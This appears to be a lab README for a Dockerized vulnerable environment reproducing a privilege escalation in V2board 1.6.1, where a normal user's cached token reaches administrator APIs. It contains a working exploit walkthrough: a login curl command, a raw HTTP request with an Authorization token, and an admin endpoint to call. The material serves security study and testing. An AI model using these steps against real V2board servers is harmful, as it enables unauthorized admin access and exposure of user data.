

# V2board 1.6.1 Privilege Escalation

[中文版本(Chinese version)](README.zh-cn.md)

V2board is a multiple proxy protocol manage panel application interface. In the version of 1.6.1, it is introduced a redis cache mechanism to save the user session.

Since there is no distinction between administrator and normal user in the cache layer, resulting in normal users being able to use their token to access the administrator interface.

References:

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## Vulnerable Environment

Execute following command to start the V2board 1.6.1:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:8080` to see the default login page of the V2board.

## Exploit

First of all, you have to register a normal user.

Then, replace the email and password with your own data and login:

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

The server will response a "auth_data" to you:



Copy it and end the following request with your "auth_data":

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```


This step is to let server save your authorization to Redis cache.

Finally, you are able to simply call all admin API with this authorization, for example `http://your-ip:8080/api/v1/admin/user/fetch`:


